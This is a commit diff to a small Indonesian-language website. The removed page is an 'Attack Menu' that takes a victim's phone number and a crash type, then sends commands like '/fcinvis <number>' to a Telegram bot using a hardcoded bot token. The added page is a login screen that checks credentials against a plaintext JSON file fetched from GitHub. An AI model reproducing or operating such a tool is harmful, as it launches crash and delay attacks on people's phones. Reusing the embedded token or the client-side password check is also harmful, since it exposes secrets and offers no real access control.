

Before and after one commit to Mr666-cry/Samu, a plain HTML site: page index.html in a window 1280 px wide. Shown: the part 260-800 px from the top of the page. Drawn offline with Linux system fonts and the light colour scheme.

Commit message:
Update index.html

```diff
--- a/index.html
+++ b/index.html
@@ -1,137 +1,159 @@
 <!DOCTYPE html>
-<html lang="en">
+<html lang="id">
 <head>
-  <meta charset="UTF-8" />
-  <meta name="viewport" content="width=device-width, initial-scale=1.0"/>
-  <title>Attack Menu</title>
+  <meta charset="UTF-8">
+  <meta name="viewport" content="width=device-width, initial-scale=1.0">
+  <title>Login - SilentCipher Access</title>
   <style>
+    * {
+      box-sizing: border-box;
+      font-family: 'Segoe UI', sans-serif;
+    }
+
     body {
-      background-color: #000;
-      color: red;
-      font-family: 'Courier New', monospace;
+      background-color: #0a0a0a;
       margin: 0;
       padding: 0;
-      text-align: center;
+      display: flex;
+      height: 100vh;
+      align-items: center;
+      justify-content: center;
     }
 
-    .container {
-      padding: 30px;
+    .login-box {
+      background: linear-gradient(145deg, #1a0000, #300000);
+      padding: 20px;
+      border-radius: 15px;
+      box-shadow: 0 0 25px #ff0000a1;
+      width: 90%;
+      max-width: 360px;
+      color: white;
+      animation: fadeIn 1s ease-in-out;
     }
 
-    .title {
-      font-size: 28px;
-      font-weight: bold;
-      margin-top: 20px;
-      color: #ff0000;
+    .login-box h2 {
+      text-align: center;
+      margin-bottom: 20px;
+      color: #ff2a2a;
+      text-shadow: 0 0 8px #ff0000;
+      font-size: 22px;
     }
 
-    .logo {
-      margin-top: 50px;
-      margin-bottom: 20px;
+    .input-group {
+      margin-bottom: 15px;
     }
 
-    .logo img {
-      width: 150px;
-      height: auto;
+    .input-group label {
+      display: block;
+      margin-bottom: 5px;
+      font-weight: bold;
+      color: #ff4d4d;
     }
 
-    input, select {
-      width: 80%;
-      padding: 14px;
-      margin: 15px 0;
-      background: #111;
-      border: 2px solid red;
-      color: red;
-      border-radius: 10px;
-      font-size: 16px;
-      outline: none;
+    .input-group input {
+      width: 100%;
+      padding: 10px;
+      background-color: #1b1b1b;
+      border: 2px solid #ff0000;
+      border-radius: 6px;
+      color: white;
+      transition: 0.3s;
+      font-size: 14px;
     }
 
-    .button {
-      background-color: #b10000;
-      color: #fff;
-      border: none;
-      padding: 15px 30px;
-      border-radius: 30px;
-      font-size: 18px;
-      cursor: pointer;
-      margin-top: 20px;
-      box-shadow: 0 0 10px red;
+    .input-group input:focus {
+      outline: none;
+      border-color: #ff4d4d;
+      box-shadow: 0 0 8px #ff0000;
     }
 
-    .button:hover {
-      background-color: #ff0000;
+    button {
+      width: 100%;
+      padding: 12px;
+      border: none;
+      border-radius: 6px;
+      background-color: #ff1a1a;
+      color: white;
+      font-weight: bold;
+      cursor: pointer;
+      transition: background 0.3s ease;
+      box-shadow: 0 0 10px #ff0000;
+      font-size: 15px;
+    }
+
+    button:hover {
+      background-color: #cc0000;
+    }
+
+    .error {
+      margin-top: 12px;
+      color: #ff8080;
+      text-align: center;
+      font-size: 14px;
+    }
+
+    @keyframes fadeIn {
+      from { opacity: 0; transform: translateY(-20px); }
+      to { opacity: 1; transform: translateY(0); }
+    }
+
+    @media screen and (max-width: 400px) {
+      .login-box {
+        padding: 15px;
+      }
+
+      .login-box h2 {
+        font-size: 20px;
+      }
+
+      button {
+        font-size: 14px;
+      }
     }
   </style>
 </head>
 <body>
-  <div class="container">
-    <div class="title">Attack Menu SamsInfinity</div>
-
-    <div class="logo">
-      <img src="https://files.catbox.moe/dix5pa.jpg" alt="logo"/>
+  <div class="login-box">
+    <h2>🔐 Login Access</h2>
+    <div class="input-group">
+      <label for="username">Username:</label>
+      <input type="text" id="username" placeholder="Masukkan username" />
     </div>
-
-    <input type="text" id="targetNumber" placeholder="Target number (e.g. 62812...)">
-
-    <select id="attackType">
-      <option>Invisible ForClose</option>
-      <option>Invisible Delay</option>
-      <option>Invisible Crash</option>
-    </select>
-
-    <button class="button" onclick="sendBug()">▶ SEND BUG</button>
+    <div class="input-group">
+      <label for="password">Password:</label>
+      <input type="password" id="password" placeholder="Masukkan password" />
+    </div>
+    <button onclick="login()">LOGIN</button>
+    <div id="error" class="error"></div>
   </div>
 
   <script>
-    function sendBug() {
-      const number = document.getElementById("targetNumber").value.trim();
-      const type = document.getElementById("attackType").value;
-      const token = "7432046690:AAFwGypADBwML-2I5xCDNdYeKVE3uenhJxE";
-      const chatId = "-1002532993003";
+    const databaseURL = "https://raw.githubusercontent.com/Mr666-cry/silentcipher/refs/heads/main/database.json"; // Ganti ke link GitHub kamu
 
-      if (!number.startsWith("62")) {
-        alert("Nomor harus diawali dengan 62 tanpa spasi. Contoh: 62812xxxx");
+    async function login() {
+      const username = document.getElementById("username").value.trim();
+      const password = document.getElementById("password").value.trim();
+      const errorDiv = document.getElementById("error");
+
+      if (!username || !password) {
+        errorDiv.textContent = "⚠️ Harap isi semua field!";
         return;
       }
 
-      let message = "";
+      try {
+        const response = await fetch(databaseURL);
+        const users = await response.json();
+        const match = users.find(user => user.username === username && user.password === password);
 
-      switch (type) {
-        case "Invisible ForClose":
-          message = `/fcinvis ${number}`;
-          break;
-        case "Delay Invis":
-          message = `/delay ${number}`;
-          break;
-        case "Invisible Blank":
-          message = `/crack ${number}`;
-          break;
-        default:
-          message = `/fcinvis ${number}`;
+        if (match) {
+          window.location.href = "https://silentcipher.vercel.app/";
+        } else {
+          errorDiv.textContent = "❌ Username atau password salah!";
+        }
+      } catch (error) {
+        console.error("Error:", error);
+        errorDiv.textContent = "❌ Gagal terhubung ke server.";
       }
-
-      fetch(`https://api.telegram.org/bot${token}/sendMessage`, {
-        method: "POST",
-        headers: {
-          "Content-Type": "application/json"
-        },
-        body: JSON.stringify({
-          chat_id: chatId,
-          text: message
-        })
-      })
-      .then(response => {
-        if (response.ok) {
-          alert(`Bug Sedang diproses!\nTarget: ${number}\nJenis: ${type}\nHarap Tunggu 20mentit Sebelum Mengirim lagi`);
-        } else {
-          alert("Gagal mengirim ke Telegram.");
-        }
-      })
-      .catch(error => {
-        alert("Terjadi kesalahan.");
-        console.error(error);
-      });
     }
   </script>
 </body>
```
